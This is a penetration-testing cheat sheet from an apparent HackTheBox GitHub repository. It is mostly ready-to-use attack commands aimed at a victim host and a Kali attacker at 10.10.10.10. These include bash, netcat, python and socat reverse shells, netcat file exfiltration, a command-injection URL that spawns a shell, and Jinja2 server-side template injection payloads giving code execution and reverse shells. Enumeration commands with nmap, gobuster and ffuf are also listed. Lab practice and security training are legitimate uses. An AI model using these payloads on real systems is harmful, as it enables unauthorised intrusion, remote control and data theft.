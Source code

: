 # Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://github.com/Pash3nlee/HackTheBox/raw/main/images/cat.PNG)

# Useful Commands

## Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
python -m SimpleHTTPServer 8888
```

*Victim:*
```
wget http://10.10.10.10:8888/script.sh -O script.sh
```

* #### With SCP

*Copy from Victim*
```
scp user@10.10.10.77:/home/user/file.txt /home/kali/
```

*Copy to Victim* 
```
scp -r /home/kali/file.txt user@10.10.10.77:/home/user/
```

## Reverse shells [:octocat:](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/5555 0>&1'
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### With python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

## If Web Server

### Brute dir with extensions

* #### GoBuster

```
gobuster dir -e -u http://academy.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,txt,htm,html,phtml,js,zip,rar,tar -s 200,302
```

* #### FuFF

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://academy.htb/FUZZ -e php,txt,htm,html,phtml,js,zip,rar,tar -mc 200,302
```

### VHOST Discovery

* #### FuFF

```
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://schooled.htb/ -H "Host:FUZZ.schooled.htb" -fw 5338
```

### CSRF

Check CSRF

```
<a href="http://10.10.10.10:4444">MyURL</a>
```

Reverse shell

```
http://10.10.10.10/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.10.10'$IFS'4444')
```

### SSTI [:octocat:](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

![](https://gblobscdn.gitbook.com/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M7O4Hp6bOFFkge_yq4G%2F-M7OCvxwZCiaP8Whx2fi%2Fimage.png?alt=media&token=4b40cf58-5561-4925-bc86-1d4689ca53d1)

* #### Check Jinja2

```
{{7*'7'}} would result in 7777777
{{config.items()}}
```

 >Reverse shell

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'").read()}}{%endif%}{%endfor%}
```

```
{{request.application.globals.builtins.import('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"').read()}}
```

>RCE

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

* #### Check Twig

```
{{7*'7'}} would result in 49
{{dump(app)}}
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
